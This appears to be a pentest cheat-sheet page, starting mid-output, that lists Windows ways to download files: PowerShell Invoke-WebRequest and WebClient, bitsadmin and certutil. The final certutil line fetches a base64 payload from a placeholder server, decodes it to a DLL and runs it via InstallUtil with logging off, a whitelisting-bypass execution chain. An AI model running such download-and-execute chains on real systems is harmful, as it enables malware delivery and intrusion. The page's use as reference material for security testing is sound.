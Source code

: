 ```text
                    ma=2592000,h3-T050=":443"; ma=2592000]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        : mshtml.HTMLDocumentClass
RawContentLength  : 7004

```

View just content:

```text
Invoke-WebRequest 'http://google.com/robots.txt' | Select-Object -Expand Content
```

### PS iwr

alias to Invoke-WebRequest

`iwr google.com/robots.txt`

### bitsadmin

Use bitsadmin to download via the command line on older version of windows \(works from CMD.exe\)

usage:

`cmd.exe /c bitsadmin /transfer {JOB NAME} /download /priority normal {LINK} {DOWNLOAD LOCATION}`

example:

```text
bitsadmin /transfer debjob /download /priority normal http://cdimage.debian.org/debian-cd/current-live/i386/iso-hybrid/debian-live-8.7.1-i386-xfce-desktop.iso D:\Users\[Username]\Downloads\debian-live-8.7.1-i386-xfce-desktop.iso
```

credit: [https://gist.github.com/rosswd/cad64650ca1b03bd1789a69edbeb586c](https://gist.github.com/rosswd/cad64650ca1b03bd1789a69edbeb586c)

### PS WebClient

```text
(new-object System.Net.WebClient).DownloadFile('http://www.xyz.net/file.txt','C:\tmp\file.txt')
```

### Certutil

You can download the file directly:

```csharp
certutil.exe -urlcache -f http://192.168.0.1/file.exe file.exe
```

Or you can encode the file in base64 and then use `certutil` to decode it.

```text
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```
